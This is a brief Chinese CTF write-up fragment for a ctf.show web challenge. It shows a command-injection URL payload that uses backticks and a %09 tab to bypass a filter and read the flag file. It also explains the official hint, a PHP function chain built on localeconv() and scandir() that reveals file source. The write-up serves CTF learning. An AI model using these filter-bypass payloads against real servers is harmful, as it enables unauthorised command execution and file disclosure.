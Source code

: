 本地测试都可以, 在线测试的时候发现只有 `%09` 可以绕过, 不知道什么情况

```
http://e71bd105-44bb-4322-a7b6-3290f09d59cb.challenge.ctf.show/?c=echo`tac%09fla*`;
```

官方 hint 的方法是这样的

**show_source**(**next**(**array_reverse**(**scandir**(**pos**(**localeconv**())))));

分析一下

`localeconv()` 返回包含本地化数字和货币格式信息的关联数组 (没看懂), 但是要注意的是数组的第一个值为 `.`

```php
array(18) {
  ["decimal_point"]=>
  string(1) "."
  ["thousands_sep"]=>
  string(0) ""
  ["int_curr_symbol"]=>
  string(0) ""
  ["currency_symbol"]=>
  string(0) ""
  ["mon_decimal_point"]=>
  string(0) ""
  ["mon_thousands_sep"]=>
  string(0) ""
  ["positive_sign"]=>
  string(0) ""
  ["negative_sign"]=>
  string(0) ""
  ["int_frac_digits"]=>
  int(127)
  ["frac_digits"]=>
  int(127)
  ["p_cs_precedes"]=>
  int(127)
  ["p_sep_by_space"]=>
  int(127)
  ["n_cs_precedes"]=>
  int(127)
  ["n_sep_by_space"]=>
  int(127)
  ["p_sign_posn"]=>
  int(127)
  ["n_sign_posn"]=>
  int(127)
  ["grouping"]=>
  array(0) {
  }
  ["mon_grouping"]=>
  array(0) {
  }
}
```
